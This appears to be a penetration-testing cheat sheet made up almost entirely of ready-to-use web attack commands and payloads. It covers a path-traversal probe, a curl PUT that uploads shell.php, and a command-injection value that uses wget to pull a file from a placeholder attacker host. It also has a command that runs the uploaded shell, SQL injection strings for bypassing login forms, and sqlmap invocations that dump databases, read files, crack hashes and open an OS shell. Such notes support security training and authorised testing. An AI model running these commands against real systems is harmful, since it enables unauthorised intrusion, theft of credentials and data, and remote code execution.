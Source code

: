 ### **File Traverse:**

- website.com/file.php\[?path=/\]

### **Test HTTP options using curl:**

- curl -vX OPTIONS \[website\]

### **Upload file using CURL to website with PUT option available**

- curl --upload-file shell.php --url http://192.168.218.139/test/shell.php --http1.0

### **Transfer file** (Try temp directory if not writable)(wget -O tells it where to store):

- ?path=/; wget http://IPADDRESS:8000/FILENAME.EXTENTION;

### **Activate shell file:**

- ; php -f filelocation.php;

# **SQLInjections**

### Common **Injections for Login Forms:**

- `admin' --`
- `admin' #`
- `admin'/*`
- `' or 1=1--`
- `' or 1=1#`
- `' or 1=1/*`
- `') or '1'='1--`
- `') or ('1'='1—`

### **SQLMap**

- `sqlmap -u http://meh.com --forms --batch --crawl=10 --cookie=jsessionid=54321 --level=5 --risk=3`
  - Automated sqlmap scan
- `sqlmap -u http://INSERTIPADDRESS --dbms=mysql --crawl=3`
- `sqlmap -u TARGET -p PARAM --data=POSTDATA --cookie=COOKIE --level=3 --current-user --current-db --passwords --file-read="/var/www/blah.php"`
  - Targeted sqlmap scan
- `sqlmap -u "http://meh.com/meh.php?id=1" --dbms=mysql --tech=U --random-agent --dump` Scan url for union + error based injection with mysql backend and use a random user agent + database dump
- `sqlmap -o -u "http://meh.com/form/" –forms`
  - sqlmap check form for injection
- `sqlmap -o -u "http://meh/vuln-form" --forms -D database-name -T users –dump`
  - sqlmap dump and crack hashes for table users on database-name.
- `sqlmap --flush session`
  - Flushes the session
- `sqlmap -p user --technique=B`
  - Attempts to exploit the “user” field using boolean technique.
- `sqlmap -r <captured request>`
  - Capture a request via Burp Suite, save it to a file, and use this command to let sqlmap automate everything. Add –os-shell at the end to pop a shell if possible.
